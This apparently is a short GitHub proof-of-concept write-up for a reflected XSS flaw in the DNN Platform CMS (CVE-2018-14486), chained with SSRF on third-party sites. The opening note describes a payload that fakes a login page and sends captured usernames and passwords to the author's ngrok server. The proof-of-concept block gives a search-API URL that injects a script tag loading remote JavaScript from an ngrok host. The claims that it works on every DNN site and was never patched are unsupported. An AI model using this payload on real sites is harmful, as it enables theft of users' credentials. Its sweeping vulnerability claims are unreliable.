 ﻿**Please note that this works on all DNN websites, it is a no-fix vulnerability that was never patched. This is a proof of concept that can be used to chain together SSRF and XSS on any DNN website.
The XSS Payload replicates a login page, listens to the username and password fields and once the button is pressed, it will send a fetch request to our ngrok server with the username and password.**


## Remote XSS in DNN Platform
### CVE-2018-14486
#### Description
DNN Platform is an open source .NET CMS and the DNN CMS Platform is a well-known CMS system based on .NET. The DNN CMS Platform has a no-fix exploit from 2018 they never fixed allowing us to use their search API to reflect contents of it on a remote website.

#### Vulnerability Type
Cross Site Scripting (XSS)

#### Vendor of Product
DNN Corp.

#### Affected Product Code Base
All DNN Products

#### Affected Component
DotNetNuke Core

#### Attack Type
Remote

#### Proof of Concept
Leveraging SSRF on another website, I can chain together XSS on the DNN Platform. The following is a proof of concept that will reflect Message back onto the SSRF Vulnerable website.

```html
https://www.dnnvictimsite.com/API/internalservices/searchService/search?search=\'"<ScRiPt src="https://asdasd.ngrok.io/xss.js"/>
```

>[!note]
> Leveraging this method allows us to reflect and abuse the vulnerability on all vulnerable SSRF websites.